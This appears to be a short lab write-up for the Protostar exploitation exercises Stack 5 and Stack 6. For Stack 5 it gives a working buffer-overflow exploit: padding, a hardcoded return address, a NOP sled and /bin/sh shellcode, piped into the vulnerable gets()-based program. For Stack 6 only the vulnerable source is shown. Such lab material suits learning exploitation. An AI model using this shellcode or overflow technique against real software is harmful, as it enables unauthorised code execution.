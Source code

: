 # Protostar

## Stack 5

```c
int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

just direct BOF we will overwite the return address of the `main` with the address of the beginning of our evel code which begins with nope slids and then the shellcode
> the reason of using cat to serve our shell with stdi/o

```sh
$ (python -c 'import struct;
BOF = 76*"A";
jmpaddr=struct.pack("I",0xbffff7f0);
nope = 100*"\x90"; 
shell ="\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"; 
print BOF+jmpaddr+nope+shell'; cat) | ./stack5
```

## Stack 6

```c
void getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xbf000000) == 0xbf000000) {
    printf("bzzzt (%p)\n", ret);
    _exit(1);
  }

  printf("got path %s\n", buffer);
}

int main(int argc, char **argv)
{
  getpath();
}
```
